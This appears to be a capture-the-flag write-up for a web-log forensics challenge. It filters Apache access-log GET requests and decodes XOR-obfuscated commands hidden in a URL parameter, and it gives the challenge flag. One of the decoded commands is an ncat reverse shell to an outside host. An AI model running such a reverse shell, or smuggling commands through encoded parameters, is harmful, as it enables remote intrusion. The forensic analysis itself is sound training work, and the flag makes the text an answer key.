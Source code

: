 ```
 Festive Forensics: The Christmas Incident
250

It's the holiday season, and your e-commerce business, which specializes in selling Christmas gifts, is experiencing a spike in activity. However, the day after Christmas Eve, the infrastructure manager informs you that an attack has targeted the main website, disrupting sales and threatening the security of customer data. You are responsible for analyzing the Apache web server logs to understand what happened.

To do this you must discover the method used by the attacker to camouflage his activity as well as the second and third command executed by the latter in the order of execution.

Flag format: CMCTF{method_cmd1_cmd2}

Flag example: CMCTF{morse_whoami_tree}

Author: t4f3

```
 we are given access.log file
the file is web server(apach2) log file:
each line of this file contain:
10.0.192.157 - - [13/May/2022:00:00:20 +0200] "GET /static/assests/images/space.jpg HTTP/1.1" 404 429 "-" "Mozilla/5.0 (Linux; Android 4.2.2; Nexus 7 Build/JDQ39) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.90 Safari/537.36"

1 - ip address of user who reach the request
2 - the date/time
3 - request method: GET/POST/PUT...
4 - the Path/url
5 - returned code: 200/301/302/400/404/....
6 - size of data returned
7 - referrer http header
8 - user Agent of the browser

if you analyse carefouly, you can realise that  we can see request data in GET method only. Because with request method,
the data are send on url.
 as the log file contain the path/url, we can see those data.
w can not see data send trough Post/PUT . because those data are send in the request body and we don't have request body on the log file.
so to simplify our task as analyser, we will only investigate on GET request.
i use grep to list only GET request.
we also now that data will be send to .php, .html file normaly. .js,.css,.png, .jpeg don't deal request param. so we filter all request made on one of those file
 # cmd 
```bash
grep "GET /[^ ]*\.html?" access.log
```
 the command return all GET request which have url param
the ouput contain a lot of get request with lang=. 
```
n64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36"
10.0.126.100 - - [13/May/2022:23:59:15 +0200] "GET /index.html?lang=en HTTP/1.1" 200 1366 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 1.1.4322)"
10.0.192.157 - - [13/May/2022:23:59:21 +0200] "GET /index.html?lang=fr HTTP/1.1" 200 1366 "-" "Mozilla/5.0 (Linux; Android 6.0.1; Nexus 5X Build/MMB29P) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Mobile Safari/537.36 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"
10.0.126.100 - - [13/May/2022:23:59:37 +0200] "GET /index.html?lang=en HTTP/1.1" 200 1366 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/536.30.1 (KHTML, like Gecko) Version/6.0.5 Safari/536.30.1"
10.0.75.29 - - [13/May/2022:23:59:40 +0200] "GET /index.html?lang=fr HTTP/1.1" 200 1366 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36"
10.0.87.216 - - [13/May/2022:23:59:41 +0200] "GET /index.html?lang=fr HTTP/1.1" 200 1366 "-" "Mozilla/5.0 (Linux; Android 4.2.2; Nexus 7 Build/JDQ39) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.90 Safari/537.36"
10.0.126.100 - - [13/May/2022:23:59:44 +0200] "GET /index.html?lang=en HTTP/1.1" 200 1366 "-" "Mozilla/5.0 (Linux; Android 6.0.1; Nexus 5X Build/MMB29P) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Mobile Safari/537.36 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"
10.0.32.115 - - [13/May/2022:23:59:48 +0200] "GET /index.html?lang=en HTTP/1.1" 200 1366 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/536.30.1 (KHTML, like Gecko) Version/6.0.5 Safari/536.30.1"
10.0.126.194 - - [13/May/2022:23:59:52 +0200] "GET /index.html?lang=en HTTP/1.1" 200 1366 "-" "Mozilla/5.0 (Linux; Android 4.3; fr-fr; SAMSUNG GT-I9506-ORANGE Build/JSS15J) AppleWebKit/537.36 (KHTML, like Gecko) Version/1.5 Chrome/28.0.1500.94 Mobile Safari/537.36"
10.0.102.204 - - [13/May/2022:23:59:56 +0200] "GET /index.html?lang=fr HTTP/1.1" 200 1366 "-" "Mozilla/5.0 (Linux; Android 6.0.1; Nexus 5X Build/MMB29P) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Mobile Safari/537.36 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"
```
let filter them

# cmd:
```bash
grep "GET /[^ ]*\.html?" access.log | grep -v "lang"
10.0.181.41 - - [13/May/2022:10:20:54 +0200] "GET /home.html?info=mr!,m` HTTP/1.1" 200 1651 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36"
10.0.181.41 - - [13/May/2022:10:20:55 +0200] "GET /home.html?info=inruo`ld HTTP/1.1" 200 196 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36"
10.0.181.41 - - [13/May/2022:10:20:59 +0200] "GET /home.html?info=qve HTTP/1.1" 200 187 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36"
10.0.181.41 - - [13/May/2022:10:21:04 +0200] "GET /home.html?info=ob`u!jxmn/sdo!0226!,d!.cho.c`ri HTTP/1.1" 200 185 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36"
```

interesting:
we have the param info wich contain encrypted data
i copy "mr!,m`"  and use cyberchef magic option with inensive mode and i got  ``ls -al``
![](../images/cyberchef.png)

# it is xor with key= 1
```
mr!,m` = ls -al
inruo`ld = hostname
qve = pwd
ob`u!jxmn/sdo!0226!,d!.cho.c`ri = ncat kylo.ren 1337 -e /bin/bash
```

# flag : CMCTF{xor_hostname_pwd}

